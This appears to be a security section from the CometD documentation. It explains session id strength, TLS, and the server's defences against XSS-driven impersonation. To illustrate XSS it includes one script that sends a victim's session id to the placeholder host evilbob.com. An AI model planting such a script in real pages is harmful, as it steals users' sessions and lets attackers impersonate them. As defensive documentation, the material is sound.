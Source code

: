 
[[_security]]
== Security

This session discusses the security features of the Bayeux Protocol and the
relationship with common attacks and how you can configure CometD to tighten
your application.

=== Security of the session id

The Bayeux Protocol identifies a particular session (formerly known as "client")
via a session id token, carried in Bayeux messages by the `clientId` field.
The `clientId` field value (i.e. the session id) is generated by the server
when the client sends the handshake request message, and sent back to the
client in the handshake response message (see
<<_bayeux_meta_handshake,the Bayeux Protocol handshake>>).
The client then sends the `clientId` field in every subsequent message to the
server, until disconnection.

The session id is generated using a strong random number generator, and as
such it is not guessable by an evil third party.
An evil user that knows its own session id cannot guess the session id of
another user by just looking at its own session id.

While the non-guessability of the session id is a good starting point, it
is typically not enough, so read on.

=== Security against man-in-the-middle attacks

An evil user may be in the position to observe Bayeux Protocol traffic, as
it is the case for a man-in-the-middle.

The typical solution in this case is to encrypt the traffic between the
client and the server using TLS.
In this way, all the traffic between the client and the server is
encrypted end-to-end and a man-in-the-middle cannot look or otherwise retrieve
someone else's session id.

=== Security against cross-site scripting (XSS) attacks

A https://www.owasp.org/index.php/Cross-site_Scripting_%28XSS%29[cross-site scripting attack]
is a particularly important vulnerability of web applications.

A typical example of XSS is the following:

Evil user Bob connects to a chat service that uses CometD.
There, he finds Alice, another user.
Bob sends an evil chat message text to Alice where the text is the following:

====
[source,html]
----
<script type="text/javascript">
var xhr = new XMLHttpRequest();
xhr.open("GET", "http://evilbob.com?stolen=" + $.cometd.getClientId());
xhr.send();
</script>
----
====

As you can see, the script accesses the CometD's session id (via
`$.cometd.getClientId()`).

[NOTE]
====
Removing the method `getClientId()` would not solve the issue, because
the evil script could access the session id in other ways.
For example, by registering an extension, or by otherwise watching
Bayeux messages that come and go for the normal functioning of the
application, or by quickly disconnecting and reconnecting the session, etc.
====

Bob sends that evil message, which reaches the CometD server and gets routed
to Alice. When it arrives on Alice's browser, that script may be run by
the browser if the application is XSS vulnerable.

If the script runs, Bob would be able to steal Alice's session id, send
it to his server `evilbob.com`, where Bob would be able to access it.

[IMPORTANT]
====
If your web application is XSS vulnerable, an attacker can do
a lot more damage than just stealing a CometD session id, so it is of
paramount importance that your web application sanitizes data received
from unknown sources such as other users chat messages.
====

If Bob has stolen Alice's session id, he could craft a Bayeux message
with Alice's session id and send it from his computer, and thereby could
impersonate Alice.

CometD protects from impersonations due to stolen session ids in different
ways, depending on the type of transport used to carry Bayeux messages.

For transports based on HTTP (`long-polling` and `callback-polling`),
CometD sends a HTTP cookie with the handshake response, marked as `HttpOnly`,
called `BAYEUX_BROWSER` (see <<_java_server_configuration>>).
The CometD implementation, on the server, maps this cookie to a legit
session id during the processing of the handshake request message.
For every subsequent message, the browser will send the `BAYEUX_BROWSER`
cookie to the server and the CometD implementation will
retrieve the session id from legit sessions that have been mapped to the
cookie, rather than from the message (where it could have been altered).

Bob could craft a message with Alice's session id, but the `BAYEUX_BROWSER`
cookie that he will send along with the tampered message will be his,
not Alice's. The CometD implementation will detect this attack and ask
Bob to re-handshake.

If the crafted message does not have any cookie, CometD will ask Bob to
re-handshake.

For transports based on WebSocket (`websocket`), CometD trusts the particular
connection that has been established during the handshake.
The session id is associated to that connection and when a WebSocket message
arrives on that connection, and CometD retrieves the session id from the
association with the connection, rather than from the message (where it
could have been altered).

When the connection is closed, for example for a network failure, CometD
attempts to open another connection.
If the reconnection happens within a short period of time (typically less than
the `maxInterval` configured on the server), then CometD will try to send
messages on the new connection without re-handshaking, but since it's a new
connection that did not process a handshake message, it will not have a
session id associated.

At this point, CometD could ask the client to re-handshake (which involves
some round-trips to be completed, possibly slowing further down the
communication in case of faulty networks), or it could trust the session
id from the message (which would yield faster reconnections, albeit less
secure if the session id is stolen).
This is controlled by the `requireHandshakePerConnection` parameter, see
<<_java_server_configuration>>.
